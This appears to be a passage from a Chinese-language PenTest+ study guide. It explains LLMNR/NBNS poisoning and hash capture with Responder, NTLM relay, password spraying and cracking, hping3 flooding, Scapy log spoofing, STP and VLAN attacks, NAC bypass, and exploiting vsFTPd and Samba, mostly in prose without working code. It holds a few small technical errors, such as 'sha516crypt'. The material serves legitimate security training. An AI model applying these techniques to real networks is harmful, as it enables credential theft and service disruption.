LLMNR 是一种模仿 DNS 功能的协议，用于在小型网络 (LAN) 上运行的主机的 IPv4 和 IPv6 主机名解析。RFC 4795 于 2007 年 1 月发布，阐述了 LLMNR 协议功能。Microsoft 在后续版本的 Windows 操作系统中引入了该协议，包括 Windows Vista；Windows 7、8 和 10；以及 Server 2008 和 2012。就像 DNS 一样，LLMNR 和 NetBT 组件也容易受到名称服务组件投毒、冒充网络上监听的合法主机以及响应目标服务请求（如挂载网络驱动器）的欺骗攻击。更大的问题是，在网络上实施用户访问控制的服务（如映射网络驱动器）将需要身份验证。恶意用户可以通过响应 LLMNR (5355/UDP) 和 NetBT (137/UDP) 请求来冒充权威来源，告诉受害者：“嘿，我知道那台主机在哪里。”目标将向恶意主机发送身份验证回复，从而泄露用户名和 NTLMv2 哈希。然后恶意用户可以离线破解哈希以恢复明文密码。


**考试提示** Windows 并非唯一使用 LLMNR 和 NBNS 的操作系统。但这些协议的流量并非普遍可见。LLMNR 流量仅在同一组播组内可见。NetBIOS 流量仅在同一子网内可见，因为它是广播流量。换句话说，如果没有其他人与你共享同一逻辑位置，你的 Responder 将会孤单而寂寞。

##### 使用 Responder 收集哈希值

Responder 是一款 LLMNR、NBT-NS 和 MDNS 投毒工具，可协助渗透测试人员投毒名称解析服务，并利用流氓身份验证服务器窃取用户名和哈希值。Responder 是由 Laurent Gaffié 开发的 Python 脚本，预装在较新版本的 Kali Linux 中，位于 `/usr/share/responder`。为方便使用，`/usr/bin` 中提供了一个 bash 脚本 (`responder`)，以确保其包含在你的 `$PATH` 中。执行命令时读取的配置文件位于 `/etc/responder`，可根据测试需求进行定制。要查看命令选项列表，请在终端窗口中输入 `responder -h`。要启动 Responder，可以执行以下命令，如图 3-3 所示，其中 `-I wlan0` 指定要监听的网络接口。


**图 3-3** 启动 Responder


**注意** 要查看 Responder 是否安装在你的 Kali 版本中，请打开终端窗口并尝试 `locate responder` 或 `which responder`，以查看它当前是否在你的 `$PATH` 中。你可以从开发者的 GitHub 页面下载最新版本（[`github.com/lgandx/Responder`](https://github.com/lgandx/Responder)）。

启动 Responder 后，你将看到已加载的投毒器、服务器和选项列表。对于列为“on”的每个服务器，都已启动一个 Python 监听器，以投毒客户端请求并通过每个服务特定的端口回答回复。当你查找 Responder 的进程 ID (PID) 并在对应的 PID 下 grep 监听端口时，你将看到 Responder 正在监听的 TCP 和 UDP 端口列表，如图 3-4 所示。


**图 3-4** Responder 启动的端口和服务

现在 Responder 正在网络上监听，我们可以尝试投毒 LLMNR 请求并在网络上窃取哈希值。在图 3-5 中，Administrator 用户正尝试通过网络映射来自 SERVER1 的 $HOME 共享。


**图 3-5** 映射 Windows 网络驱动器


**注意** 大多数主机倾向于遵循特定的主机名解析顺序。Windows 主机将首先尝试使用 DNS 解析主机名。然后尝试 LLMNR，如果不可用，则尝试 NetBIOS 名称服务 (NBNS)。Responder 最适合拦截网络上的无效主机名请求，否则 LLMNR/NBNS 就是一种竞争条件。目标最终遵循的解析顺序可能会影响成功利用所需的时间和复杂性。

一旦 Administrator 用户点击“完成”按钮，就会通过网络发送请求以解析主机名 SERVER1。如果无法通过 DNS 解析该主机，请求将作为 LLMNR/NBNS 查询发送。恶意主机会响应，基本上是说：“我知道你可以在哪里映射该驱动器”，并告诉目标去哪里。目标为了映射网络驱动器，会发送包含用户名和 SMB-NTLMv2 哈希值的身份验证回复。不幸的是，Administrator 用户无法映射该驱动器；然而，我们现在已经获得了 Administrator 的 SMB-NTLMv2 哈希值，如图 3-6 所示，我们可以尝试离线破解它。


**图 3-6** Responder 中捕获的 NTLMv2 哈希值

##### 结合 Responder 使用 WPAD 攻击

另一种使用 Responder 的流行中间人技术是 Windows Web 代理自动发现协议 (WPAD) 攻击。Microsoft Windows 客户端连接到 WPAD 服务器，以获取并配置 Internet Explorer 的自动 Web 代理设置。此功能在大多数 Windows 版本中默认启用。如果 Windows 主机无法通过 DNS 解析 WPAD 服务器主机名，它将通过网络发送 LLMNR 和 NBNS 查询。Responder 可配置为启动 WPAD 监听器，强制基本 HTTP 身份验证（无加密），并在用户浏览网站前提示其输入用户名和密码。当 Responder 看到对“wpad”的请求时，它会投毒发送给 Windows 主机的答案。系统将提示用户输入用户名和密码，当用户点击“确定”时，凭据将被 Responder 捕获。


Microsoft 安全公告 MS16-077 于 2016 年 6 月 14 日发布，旨在缓解 Windows 处理代理发现和 WPAD 自动代理检测的方式。有两种解决方案可帮助缓解 WPAD 攻击：一是在 DNS 服务器中创建一条记录指向组织的代理服务器；另一种解决方案是禁用 Internet Explorer 中的“自动检测设置”。如果主机通过 Active Directory 进行管理，则可以使用组策略来禁用默认设置。


##### NTLM 中继攻击

你可以看到，我们如何使用 Responder 中的多种技术捕获 NTLM 哈希值以进行离线破解。但如果你无法破解哈希值，或者不想费心破解怎么办？通过投毒响应，我们可以诱使目标尝试连接到我们。但我们不自己提供资源，而是将该请求转发给最初请求它的主机，或转发给不同的目标主机，从而有效地处于连接中间。这使我们能够传递比请求对象更多的内容。我们还可以利用发起我们投毒请求的用户的上下文注入恶意载荷并发出命令。以这种方式维持访问可能比较棘手，但如果你能投毒响应且无法破解哈希值，这是一个有效的选项。


**注意** Responder 内置了一个名为 Multi-Relay 的工具，允许你对 NTLM 执行中继攻击。你可以在创作者的博客上阅读更多相关信息：[`g-laurent.blogspot.com/2016/10/introducing-responder-multirelay-10.html`](http://g-laurent.blogspot.com/2016/10/introducing-responder-multirelay-10.html) 和 [`g-laurent.blogspot.com/2017/03/multirelay-20-runas-pivot-svc-and.html`](https://g-laurent.blogspot.com/2017/03/multirelay-20-runas-pivot-svc-and.html)

### 密码攻击

从网络攻击的角度来看，我们假设你无法访问系统，只能访问网络。这意味着你可能会看到应用程序或操作系统的登录界面，并选择攻击它们以获取对系统及其保护数据的访问权限。理想情况下，你会在尝试猜测密码之前枚举目标用户，因此在本节中，我们将假设你针对的是已知用户。我们将讨论三种方法：密码喷射、暴力破解和字典攻击，以及哈希破解。在开始之前，我们需要明确在选择采用哪种方法时需要考虑的因素。

防御者会根据请求来源、尝试次数（包括失败与成功的尝试）以及目标账户等因素，寻找针对身份验证系统的攻击。作为威慑，他们可能会实施账户锁定策略，根据失败登录次数暂时或永久挂起账户，或者为尝试次数过多的来源启用自动阻断。作为渗透测试人员，你需要理解这些概念，以便防止对客户造成不必要的干扰，并在必要时避免被检测到。

#### 暴力破解和字典攻击


##### 暴力破解与密码攻击

###### 暴力破解

暴力破解可能是最古老的攻击方法。通常，你会找到一个用户，然后尝试字母和数字的每一种可能组合来猜测密码。先试 `a`。然后试 `aa`。接着试 `ab`。再试 `ac`……以此类推。这种方法的优点是简单，而且如果给予足够的时间，你保证能成功。缺点是所需时间可能超过宇宙热寂，而且在你尝试的过程中，极有可能触发自动阻断防御并引发所有可能的警报。

这种方法的一个变体是使用人们常用作密码的已知单词字典，仅猜测该列表中的内容。这不能保证最终成功，因为如果密码不在你的猜测字典中，你就毫无办法。但它能在更短的时间内进行一些有根据的猜测。除非你的字典非常好（或运气极佳），否则你仍会触发自动阻断防御并引发警报，但你会比暴力破解方法更快地成功或失败。

许多工具都可以做到这一点，例如 `Metasploit`、`Hydra`、`Medusa` 和 `Nmap`。在我们的示例中，我们将展示 `Nmap` 对 `SSH` 执行字典攻击。这些示例是在 `Kali Linux` 中完成的。我们的 `users.txt` 包含一个条目：`bob`，我们假设它已被事先枚举出来。


当然，也存在组合形式。例如，你可以根据规则生成字典，尝试 "Password"、"password" 和 "Passw0rd"。你甚至可以生成字典来猜测单词组合。字典越长，攻击耗时越长。目标用户越多，攻击耗时越长。猜测次数越多，被发现或触发控制的可能性就越大。这很重要。如果客户有账户锁定策略，在四次错误猜测后锁定账户，那么你对任何目标账户进行四次或更多错误猜测都会造成拒绝服务状况。

##### 密码喷射

密码喷射通过使用单个知名密码（如 `Winter2021`）针对许多用户来解决这个问题。理论依据是：在 1000 个用户中，至少可能有一个正在使用该密码。这种方法的优势是不太可能触发账户锁定。用一两个密码遍历 1000 个账户，比对同等数量的账户尝试 100 个猜测的字典要快得多。劣势是它严重依赖运气和对人们思维方式的良好预判，而且如果在短时间内从单一来源针对许多账户，仍然有触发警报的风险。

下面是一个使用 `Kali Linux` 中的 `Hydra`，以单个密码攻击多个用户的示例：


###### 哈希破解

密码可能以哈希格式在网络上传输或存储。在进行其他网络攻击时（例如使用 `Responder`），你可能会拦截到一个或多个此类哈希。与密码喷射不同，离线破解哈希不会冒账户锁定或触发警报的风险。它比与服务交互进行完整的登录交换快得多，因此你的时间限制通常更多取决于你可用于破解的硬件，而不是网络速度或被攻击认证系统的速度。


> **注意** Windows 以 `NT` 或 `NTLM` 格式生成账户密码的哈希值：`[<LM hash>:<NT hash>]`。这些哈希存储在本地计算机的 `Security Account Manager (SAM)` 数据库中，或域控制器上的 `NTDS.dit` 数据库中。`NT` 或 `NTLM` 哈希可用于远程认证，这在中继攻击或传递哈希 (`PtH`) 攻击中是被允许的。我们将在第 9 章介绍 `PtH`。`NTLMv2` 哈希用于网络认证。这些哈希基于用户的 `NTLM` 哈希，并通过质询/响应算法派生。这些哈希无法在网络上重放。

在 `Kali` 的 `/usr/share/responder` 目录中，有 `Responder` 用于记录其活动的日志文件。`Poisoners-Session.log` 用于记录发回目标的每个被投毒的应答，针对特定服务。`Responder-Session.log` 记录目标对每个被投毒协议的响应。如果成功，用户名、主机名和哈希值也会被记录。日志的好处在于它们保留了所有事件的历史记录，并带有日期时间戳。这在故障排除或在测试期间/事后将特定攻击与客户关联时很有用。`Responder` 的另一个方便功能是它会将泄露的哈希值或凭据记录在一个文本文件中，该文件已经是 `John the Ripper (JTR)` 可理解的格式。图 3-7 展示了使用 `JTR` 中的字典对 `NTLMv2` 哈希值执行暴力攻击以恢复管理员明文密码是多么容易。


**图 3-7** 在 `JTR` 中使用字典破解 `NTLMv2` 哈希

哈希与加密有明确区别。加密哈希函数是一种算法，它接收可变长度的字符串（消息）作为输入，并将其转换为固定长度的哈希值（消息摘要）。主要目标是消息完整性，使得哈希值无法还原为其原始字符串值。这使得哈希成为存储密码的理想选择。目前最常见的哈希算法是 `Message Digest 5 (MD5)` 和 `Secure Hash Algorithm`（例如 `SHA-1` 和 `SHA-256`）。


> **注意** 哈希值不仅用于安全。供应商为软件发布计算哈希值，以让消费者确信他们下载的软件源自可信来源。恶意软件研究机构（如 `Virus Total` ([`www.virustotal.com`](https://www.virustotal.com)）计算哈希值以识别已知恶意软件。这使得恶意软件分析师能够区分相似类型的恶意软件，无论可执行文件的名称是否已更改。

与哈希不同，加密是可逆的。通过使用密钥，加密允许将明文数据加密为密文，并解密回明文。`对称密钥加密` 依赖相同的加密密钥来加密和解密数据。表 3-1 列出了常见的对称密钥加密类型。`非对称密钥加密` 使用两个不同的密钥进行加密和解密。私钥仅作者知晓，公钥共享给任何想要解密消息的人。这主要存在于使用数字证书 (`X.509`) 或 `公钥基础设施 (PKI)` 进行认证访问的客户端-服务器模型中。


**表 3-1** 常见哈希与加密算法


> **提示** 本节仅对各种加密和哈希技术提供基本介绍。要进一步了解加密算法，请查阅 `联邦信息处理标准 (FIPS)` 出版物 140-2 (`FIPS PUB 140-2`)。该出版物深入介绍了美国政府对合规算法和技术的标准。


`hash-identifier`（[`code.google.com/archive/p/hash-identifier`](https://code.google.com/archive/p/hash-identifier)）Python 脚本（Kali Linux 中也可用）通过评估已知哈希值的特征，帮助识别各种哈希类型。现代 UNIX 和 Linux 密码使用基于数据加密标准（DES）的密码哈希函数 `crypt()` 进行保护。Linux 操作系统后续版本的默认哈希函数是 `sha516crypt`。每个哈希值都伴随一个随机生成的 8 字节盐值，以降低哈希值在预计算表（如彩虹表）中被找到的概率。图 3-8 提供了一个在 Python 中使用 `crypt()` 函数并结合预定义盐值计算哈希的示例。然而，哈希的强度仅取决于它所保护的明文值——真的是这样吗？传统的哈希算法（如 MD4 甚至 MD5）容易受到碰撞攻击，即两个不同的输入可能产生相同的哈希值。在安全性不是首要考虑因素的情况下，根据组织的安全需求，这些哈希算法可能足以满足日常使用。


**图 3-8** Crypt 哈希函数

前面我们提到了彩虹表。彩虹表会计算长度不超过特定值的所有明文可能对应的哈希值。无论你的计算能力如何，这些表都可能变得非常庞大，需要巨大的存储容量——有些甚至超过 300GB。每个表通常都是为特定的哈希需求而策略性设计的，例如 MD5、SHA-1、Windows LAN Manager (LM) 和 NT LAN Manager (NTLM)，后者用于各种 Microsoft 网络协议的身份验证。`RainbowCrack`（[`project-rainbowcrack.com`](http://project-rainbowcrack.com)）是一款流行的开源工具，它利用彩虹表破解密码哈希。`RainbowCrack` 利用时间-内存权衡算法，根据执行任务所消耗的时间来增加内存使用。从本质上讲，它提供了一个折中方案，让软硬件协同工作，而不是相互对抗。


**考试提示** LAN Manager (LM) 哈希是一种传统的固定长度密码哈希函数，自 Windows Vista 起已被弃用并禁用。考试中不太可能出现关于 LM 的问题。

暴力破解密码攻击效率极低，通常是最后的手段。然而，`JTR`、`Cain and Abel` 和 `Hashcat`（[`github.com/hashcat`](https://github.com/hashcat)）等工具有助于提高密码利用成功的几率。`JTR` 可以针对常见哈希算法执行字典攻击和暴力破解攻击。如果你没有由图形处理单元（GPU）集群组成的高性能计算系统供 `Hashcat` 或 `RainbowCrack` 使用，那么使用字典文件是一种快速且简便的方法，可以了解总体安全状况。图 3-9 展示了一个使用 `JTR` 结合字典文件破解捕获密码的示例。在渗透测试期间，如果你发现组织使用的密码容易受到字典攻击，这将在一定程度上揭示你所面对的情况以及该组织安全控制的成熟度。作为渗透测试人员，最难克服的事情之一就是不要过度思考问题。在某些情况下，admin/password 就是你所需要的一切。


**图 3-9** John the Ripper

#### 应用程序与协议压力测试

公司可能需要渗透测试人员评估其抵御拒绝服务（DoS）攻击的能力，或检查系统在压力下如何失效。US-CERT 将 DoS 攻击定义为“攻击者试图阻止合法用户访问信息或服务”。DoS 攻击通常发生在攻击者使用快速攻击方法消耗目标所有可用资源时。表 3-2 展示了常见攻击模式枚举与分类（CAPEC）中 DoS 攻击家族四种成员的映射关系。


**表 3-2** DoS 攻击模式

US-CERT 指出，最常用的方法是洪水攻击。CAPEC 将洪水攻击标识为攻击模式 ID 125。如果攻击成功，用户连接将受限，甚至可能导致目标崩溃。CAPEC-125 标识了归属于洪水攻击类别的其他相关攻击模式。表 3-3 根据 CAPEC 知识库提供了每种洪水攻击技术的定义。


**表 3-3** DoS 洪水攻击技术

DoS 攻击使用单个网络连接，而分布式拒绝服务（DDoS）攻击则是攻击者跨多个网络连接发起 DoS 攻击，从而放大了对目标可用性的影响程度。DDoS 攻击的主要目的是故意中断在线网络服务，以阻止用户访问资源。

Imperva 网站（[`www.imperva.com/?redirect=Incapsula`](https://www.imperva.com/?redirect=Incapsula)）提供了对 DoS 和 DDoS 攻击技术的更深入探讨。Imperva 将 DoS 和 DDoS 攻击分为三类：

*   **基于流量的攻击** 耗尽带宽，以每秒比特数（Bps）衡量
*   **协议攻击** 消耗服务器资源，以每秒数据包数（Pps）衡量
*   **应用层攻击** 导致服务崩溃，以每秒请求数（Rps）衡量

各类开源工具可用于执行这三类 DoS 攻击。`Hping`（`hping3`）（[`www.hping.org`](http://www.hping.org)）是一款安装在 Kali Linux 中的 TCP/IP 数据包组装器/分析器，可用于针对 TCP、UDP、ICMP 和 RAW-IP 协议发起 DoS 攻击。图 3-10 展示了一个使用 `hping3` 通过随机源 IP 地址发送 ICMP 回显请求对目标进行洪水攻击的示例。洪水攻击的结果是目标的 ICMP 回复响应时间（以毫秒为单位，即 ms）增加。


**图 3-10** hping3 中的 ICMP 洪水攻击

`ping` 命令的状态显示了序列 1 到 6 的典型响应时间。然后序列 7 到 14 显示了发起 ICMP 洪水攻击后的响应时间。如果我们利用僵尸网络，跨成千上万个 IP 地址进行相同的 `hping3` 扫描，后果可能对目标主机造成灾难性影响。


**注意** 僵尸网络由许多联网计算设备组成，它们协同工作以执行协调任务，例如 DoS 攻击。

#### 网络数据包操控

在测试过程中，渗透测试人员可能会发现目标受到防火墙或网络访问控制的保护，这些控制将访问限制在网络上的授权设备。`Nmap` 端口扫描可能显示主机宕机或所有端口均为“被过滤”，这限制了渗透测试人员排查连接尝试失败原因的能力。分析和检查网络上的数据包有助于深入了解连接尝试的实际情况。

##### 分析和检查数据包

`Wireshark` 和 `tcpdump` 是 Kali 中预装的两款工具，可帮助渗透测试人员分析和检查网络数据包。图 3-11 显示了前 1000 个 TCP 端口的 `Nmap` 扫描结果，仅有 4 个端口开放，996 个被过滤，10 个标记为主机禁止。


**图 3-11** 前 1000 个 TCP 端口的 Nmap 扫描

那么，host-prohibited（主机禁止）是什么意思？如果我们运行相同的端口扫描，并使用 `tcpdump` 捕获流量并将结果以 pcap 格式保存到文件中，然后将该 pcap 文件加载到 `Wireshark` 中进行分析。


当你发现某个 TCP 端口在网络上是开放且可达的，你将从目标收到一个 `[SYN, ACK]`。如果该端口被过滤，你可能会看到来自目标的主动响应，例如“目标不可达（主机管理上禁止）”。该响应在防火墙规则中配置，用于通知连接主机其无权通过此端口进行通信。例如，在 Linux 主机的 `iptables` 防火墙链策略中，防火墙可能包含一条 `REJECT` 语句，对策略未涵盖的所有请求响应 `icmp-host-prohibited` 消息，如下所示：


这类消息通过 ICMP 传输。如果我们在 Wireshark 中使用过滤器 `icmp` 过滤数据包，如 图 3-12 所示，我们可以查看从目标接收到的 ICMP 响应。


**图 3-12** 在 Wireshark 中分析 ICMP 主机禁止消息

如果我们查看数据包的第四层“Internet Control Message Protocol”，我们会看到对于 SMTP 端口 `25/tcp`，ICMP 类型为“3”（目标不可达），代码为“10”（主机管理上禁止）。ICMP 参数（例如类型和代码）可以在 IANA 网站 [`www.iana.org`](https://www.iana.org) 上找到；点击 Protocol Assignments（协议分配）。某些防火墙配置为仅过滤数据包而完全不响应。分析和检查数据包将有助于在渗透测试过程中排查连接故障。

##### 伪造与解码数据包

在某些情况下，你可能会发现某个端口被过滤或仅限网络上的授权主机访问，你可能需要伪造授权主机的源 IP 地址。Scapy ([`scapy.net`](https://scapy.net)) 是一个 Python 程序，可通过伪造和解码数据包来协助数据包操作。Scapy 支持许多用例；然而，在本节中，我们将重点关注其协助在网络上伪造合法主机的能力。以日志注入（CAPEC-93：日志注入-篡改-伪造）为例。此类攻击的目的是误导审计或掩盖攻击痕迹。当恶意日志条目未经验证就在基于 Web 的日志管理系统中被处理时，日志注入还可能暴露其他类型的漏洞，例如本地文件包含（LFI）、跨站脚本（XSS）、跨站请求伪造（CSRF），甚至远程代码执行。


**注意** 此战术实际上仅适用于“广撒网碰运气”式的漏洞利用。例如，如果你从目标网络外部伪造 IP 以试图绕过防火墙过滤，你将收不到响应。

让我们以 Nagios ([`www.nagios.org`](https://www.nagios.org)) 这样的日志管理服务器为例，它在端口 `5544/udp` 上监听来自网络上仅授权主机的 Syslog 数据。通过 UDP 发送的 Syslog 消息未经过验证，且可轻松在网络上被伪造。某些旧版操作系统和设备不支持基于 TCP 的日志记录，这会使得从合法主机伪造日志消息更加困难，因为你需要能够伪造 TCP 序列号，这些序列号是在主机通过网络通信时交换的。使用 Scapy，我们可以创建一个 Python 脚本来伪造网络上的合法主机（如网关），并向日志记录服务器发送类 Syslog 消息，从而破坏客户审计能力的完整性。图 3-13 中所示的 Python 代码将从网关（`srcIP`）生成一个伪造的 Syslog 请求，并向中央日志记录服务器（`dstIP`）指定的用于处理 Syslog 消息的端口（`dstPort`）发送一条消息（`msg`）。`spoofed_syslog` 变量定义了用于传输消息的负载和协议（`UDP`）。`send()` 函数告诉 Scapy 使用负载中定义的信息发送数据包。


**图 3-13** 使用 Scapy 伪造 Syslog 流量


**提示** 位于 [`scapy.readthedocs.io`](https://scapy.readthedocs.io) 的 Scapy 文档是学习如何使用交互式 Scapy shell、如何使用内置函数，甚至如何构建或扩展你自己的工具套件的良好参考。

当 Python 脚本执行时，消息将被发送到 Syslog 服务器进行处理。Nagios Syslog 监听器将该消息作为 Syslog 格式数据处理，解析内容，并将记录存储在索引中。图 3-14 显示了我们在 Nagios 日志管理界面中使用 Scapy 伪造的恶意消息。


**图 3-14** Nagios 中的恶意日志条目


**注意** Syslog 是一种用于定义操作系统、进程和应用程序如何生成消息的标准协议。RFC 5424 ([`tools.ietf.org/html/rfc5424`](https://tools.ietf.org/html/rfc5424)) 概述了实现 Syslog 的要求以及消息应如何格式化。

### 第二层攻击

正如我们迄今所学，渗透测试人员可以通过攻击网络协议和认证方案（即 ARP 欺骗和名称解析）做许多有害的事情，这些都有助于成功利用特定攻击场景。CompTIA 在 PenTest+ 考试目标中涵盖了一些特定的第二层攻击。在本节中，我们将更详细地介绍这些考试目标，并讨论渗透测试人员在项目期间如何在客户网络中利用这些攻击。

#### 攻击生成树协议

在交换网络中，当两个网段由两个以上的第二层交换机连接时，这会在拓扑中形成一个物理环路。使用冗余链路互连交换机有助于在其他链路之一发生故障时提高网络可用性。然而，这种设计存在固有的副作用，因为它会在网络上产生传输环路。生成树协议（STP）是一种运行在网桥和交换机等网络设备上的第二层协议。STP 的主要功能是通过仅将一个交换机端口置于转发模式，并将连接到同一网段的所有其他端口配置为阻塞模式，来防止具有冗余路径的网络中出现环路。表 3-4 展示了 STP 的三种不同形式。


**表 3-4** 生成树协议

STP 有助于监控网络拓扑并优化用于传输以太网帧的标准通信路径，从而消除冗余链路并在交换机之间建立首选链路。首选链路（即带宽最高的链路）将被使用，直到该链路发生故障，此时将使用非首选链路来承载流量。这一过程通过 `root bridge`（根桥）实现。根桥是生成树拓扑中所有交换机的参考点。拓扑中的交换机将进行根桥选举过程，其中桥 ID 最低的交换机被选举为根桥。桥 ID 是使用优先级数字和交换机的 MAC 地址在每台交换机上生成的。每台交换机都配置有默认的桥优先级 ID（大多数交换机默认优先级 ID 为 32768），且配置的值必须是 4096 的倍数。在选举过程中，优先级 ID 将与其他交换机进行比较。如果网络上的某台交换机与另一台交换机具有相同的优先级数字，则比较 MAC 地址。具有最低桥 ID 优先级或 MAC 地址的交换机将成为指定根优先级。


##### 在交换网络中

在交换网络中，以太网帧没有 TTL 值，并广播到交换机的所有端口，发送端口除外。当第 2 层交换机在 MAC 地址表中找不到帧的目标 MAC 地址时，设计为泛洪帧。通过消除冗余路径，STP 有助于防止网络环路引起的**广播风暴**，即广播帧因冗余路径在交换机之间来回反弹。如果其中一条冗余链路发生故障，广播风暴可能导致本地网络的整个段变得不可用。消除冗余环路还有助于防止 MAC 地址表抖动，后者是由交换机上的两个不同端口广播相同的源 MAC 地址引起的。

大多数较新的设备运行 RSTP，因为它比传统 STP 具有许多优势。您可以使用 Wireshark 在 LAN 上捕获 STP 数据包。通过检查网桥协议数据单元（BPDU），Wireshark 将为您提供 STP 类型的版本（STP、RSTP 或 MST），BPDU 是网络中交换机之间定期组播的更新帧，用于确定端口是处于转发还是阻塞状态（防止环路），以及在选举过程中确定根网桥。当网络发生故障时，必须重复根网桥选举过程。对于 STP，协议版本 ID 等于“0”，版本 ID“3”等于 RSTP/MST。因此 STP 适用于 LAN，但如何测试它呢？

对 STP 最大的威胁是 DoS 攻击。STP 不使用身份验证过程来确定根网桥；因此，攻击者可以伪造不存在的交换机的恶意 BPDU，使其当选为新的根网桥。反复执行此步骤将导致 LAN 处于持续的选举过程中，用以太网帧饱和网络并引起广播风暴。概念验证代码和额外演示可在 [www.tomicki.net/attacking.stp.php](http://www.tomicki.net/attacking.stp.php) 找到。

#### VLAN 跳跃

虚拟局域网（VLAN）是广播域，用于在同一物理网段上提供逻辑隔离。VLAN 在 IEEE 802.1Q 下被引用。网络交换机将端口分组到一个 VLAN 组中，并使用 VLAN ID 来标识 VLAN。在交换机上，端口可以是访问端口或中继端口。中继端口在交换机上指定用于在交换机之间传输带 VLAN 标签的流量。访问端口发送和接收无标签流量，并分配给单个 VLAN（访问端口通常用于主机到交换机的连接）。VLAN 标签将对带标签流量的访问限制为仅指定给特定 VLAN 组的端口。VLAN 跳跃是一种用于获取另一 VLAN 上资源访问权限的攻击向量。实现 VLAN 跳跃使用两种方法：**交换机欺骗**和**双重标记**。

**交换机欺骗**是一种 VLAN 跳跃攻击，当攻击者能够通过使用 802.1Q 在网络上模拟有效的中继交换机时发生。这是默认配置或交换机配置不当的结果。Cisco 交换机上分配给端口的默认模式配置为“动态期望”，这意味着交换机将协商端口模式为访问端口或中继端口。一旦攻击者宣称其工作站是中继端口，交换机将通过攻击者工作站所插入的交换机端口中继所有 VLAN。攻击者现在将能够访问目标为有效交换机的所有 VLAN 流量。这可以通过防止交换机上的端口协商中继并将端口配置为访问端口来缓解。双重标记是交换机端口配置为使用原生 VLAN 的结果，攻击者可以伪造数据包并在其原生 VLAN 之外预加一个虚假的 VLAN 标签。原生 VLAN 标签（即 VLAN 1）不被转发（因为它是原生 VLAN），但虚假的 VLAN 标签被转发到下一个交换机，并发送给目标主机，就像它源自目标的原生 VLAN 一样。这种类型的攻击可用于绕过第 3 层访问控制，其中只有本地网络上的特定主机可以访问敏感/安全资源。这是交换机上的另一种配置弱点，可以通过不将任何主机关联到原生 VLAN 或在所有中继端口上禁用原生 VLAN 来缓解。

#### 绕过网络访问控制

组织可能在硬件或软件中使用网络访问控制（NAC）来隔离网络安全策略中未识别的流氓设备，提供自带设备（BYOD）模型，该模型还可以支持供应商或客户的来宾网络访问和隔离，或对用户和设备进行画像以缓解网络威胁。在 Microsoft Azure 等基于云的环境中，客户可以使用网络安全组（NSG）在虚拟网络中跨不同工作负载强制执行和控制 Internet 或内部网通信。例如，基于 DHCP 的 NAC 解决方案使用代理服务器拦截和验证来自客户端的 DHCP 请求。如果客户端根据 MAC 列表或配置文件过程识别的一组其他标准被授权，则为客户端分配 IP 地址并连接到网络。本质上，NAC 是一个可强制执行的安全边界，为整体安全栈提供另一层保护。

渗透测试人员可以使用三种方法绕过 NAC：

* **违反信任关系** 一个例子是伪造受不同 NSG 控制且不支持 802.1x 身份验证的有效设备（例如旧打印机）的源 IP 或 MAC 地址。例如，您可以使用 Kali Linux 中的 `macchanger` 应用程序来执行此操作：


* **利用实现弱点** 这包括无线协议中的弱身份验证机制，甚至基于 DHCP 的 NAC 解决方案，攻击者可以通过在网络上分配静态 IP 地址而不是尝试通过 DHCP 获取一个，从而完全绕过 NAC 保护。

* **利用配置弱点** 一个例子是 NAC 对 IPv4 地址强制执行策略，但未配置为保护 IPv6 地址。

##### 研究攻击

您需要获取网络上看到的内容并将其转化为可用的情报以发起攻击。让我们跟随两个例子，一个使用 FTP，另一个使用 SMB 和 NFS。

### 对 FTP 的攻击

许多应用程序利用文件传输协议（FTP）通过网络在主机之间传输文件。FTP 服务器为远程用户提供对文件和目录的读/写访问，并从本地操作系统继承身份验证和文件共享权限。要检测匿名 FTP 的存在，渗透测试人员可以使用 `ftp-anon.nse` 脚本，如图 3-15 所示。


**图 3-15** 使用 Nmap 识别允许匿名登录的 FTP 服务器


**提示** Metasploit 辅助模块 `ftp_login` 是检测网络上匿名 FTP 服务器的另一种有用方法。

使用图 3-18 中提供的示例，`ftp-syst.nse` 脚本能够检测到服务器上运行的 FTP 版本为 vsFTPd 2.3.4。在 Kali 中，您可以使用 Exploit-DB ([`www.exploit-db.com`](https://www.exploit-db.com)) 命令行界面（CLI）搜索工具 `searchsploit` 来查找已知漏洞利用。运行 CLI 搜索工具的结果显示，服务器上运行的 vsFTPd 版本易受后门远程代码执行漏洞的影响，如图 3-16 所示。


**图 3-16** Searchsploit vsFTPd


`unix/ftp/vsftpd_234_backdoor` Metasploit 模块可用于利用存在漏洞的服务并获取设备的 root 访问权限，如图 3-17 所示。除了后门之外，许多其他类型的漏洞也困扰着 FTP 应用程序，包括目录遍历、DoS 攻击、缓冲区溢出攻击、本地和远程文件包含（LFI/RFI）攻击以及身份验证绕过攻击，仅举几例。FTP 已存在多年，并且在组织使用现代技术逐步淘汰旧设备之前，它很可能还会继续存在一段时间。


**图 3-17** Metasploit 中的 vsFTPd 后门命令执行

### 对 Samba 和 NFS 的攻击

在异构环境中，Windows、UNIX 和 macOS 用户之间可能需要共享文件并相互协作。Samba 是通用 Internet 文件系统（CIFS）协议的实现，它支持 Windows 和 UNIX 主机通过网络进行文件和打印共享。Linux/UNIX 服务器使用 Samba 与 Windows 客户端通信，以支持其文件和打印共享需求。

Samba 的某些版本在 LSA RPC 服务中包含一个漏洞，如果被利用，可能会触发堆溢出，并允许非特权用户以 root 用户身份在系统上执行任意代码。`Samba SetInformationPolicy AuditEventsInfo Heap Overflow` Metasploit 模块就是一个尝试利用此漏洞的示例。


**注意** 您可以在 Metasploit GitHub 上查看此模块的完整源代码：[`github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/samba/setinfopolicy_heap.rb`](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/samba/setinfopolicy_heap.rb)。该模块将运行一段时间，可能需要较长时间才能完成。Metasploit 模块允许您定义起始和停止地址，以防您的操作系统未在模块中定义。

NFS 是另一种文件共享功能，它提供了一种实现特权执行的方法。要查看共享给 UNIX 环境的文件系统列表，可以使用 `showmount -e <ip address>` 命令，也可以使用 nmap，指定端口 111/tcp（RPC 端口）并使用 `nfs-showmount.nse` 脚本，如图 3-18 所示。RPC 端口指定服务器支持的 NFS 版本（即 v2、v3 和 v4），以及 NFS 端口 2049/tcp 或 2049/udp 和挂载端口。


**图 3-18** 在 nmap 中使用 NFS showmount 脚本


